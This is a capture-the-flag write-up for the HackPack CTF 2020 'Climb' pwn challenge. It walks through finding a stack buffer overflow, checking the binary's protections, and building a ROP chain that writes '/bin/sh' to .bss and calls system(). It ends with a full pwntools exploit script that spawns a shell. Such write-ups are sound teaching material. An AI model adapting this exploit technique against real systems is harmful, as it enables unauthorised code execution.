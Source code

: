 <h1>Climb</h1>
<h2>HackPack CTF 2020 PWN</h2>

<h3>Problem:</h3>
"Can you help me climb the rope?"

<h3>Solution:</h3>
Based on the problem, the first thing we are looking for is a buffer overflow vulnerability that can allow us to ROP.

After looking at the binary through Ghidra, we notice that main reads 500 bytes into a 32 byte variable.

![Image of Main](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/main.PNG)

We can take a look with checksec and we get:

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/checksec.PNG)

So we have no canary to worry about, and no PIE so we can hard code function addresses, and system() is already resolved for us in the binary, so there is no need to ret to libc.

First, since system() requires a pointer loaded on the RDI we need to write to a memory address that we can call later.  Using vmmap with pwndbg we can see that the range 0x601000 to 0x602000 is set for both read and write.

![image of checksec](https://github.com/h3lpful/ctf_writeups/blob/master/climb/images/vmmap.PNG)

Looking in Ghidra the higher areas of that should not be used so I chose (0x601fb0).

Next we need to be able to write to that area.  We can use ROPgadget > dump.txt to browse through all the available gadgets and build a ROP chain, here is a good one:

0x000000000040065d : mov qword ptr \[rdx\], rax ; ret

will allow us to write from the rax to the location on the rdx.

The only thing left is to build the payload.  Below is the exploit code I used:

```Python3
from pwn import *

target = './climb'

context.update(terminal = ['tmux','splitw'])

#==========================================================
#           CODE
#==========================================================

p = process(target)

#p = remote('cha.hackpack.club',41702)

sh = b'/bin/sh\0'
sh = int.from_bytes(sh, byteorder='little')

#gdb.attach(p)

pl = p64(0x4141414141414141) * 5    # padding to ret addr
pl += p64(0x40064b)                 # pop rax
pl += p64(sh)                       # /bin/sh into rax
pl += p64(0x400654)                 # pop rdx
pl += p64(0x601fb0)                 # address on bss
pl += p64(0x40065d)                 # writes rax to address on rdx
pl += p64(0x400743)                 # pop rdi
pl += p64(0x601fb0)                 # address on bss
pl += p64(0x400530)                 # call system()

print(p.recvuntil('respond?'))
p.send(pl)
p.interactive()
```
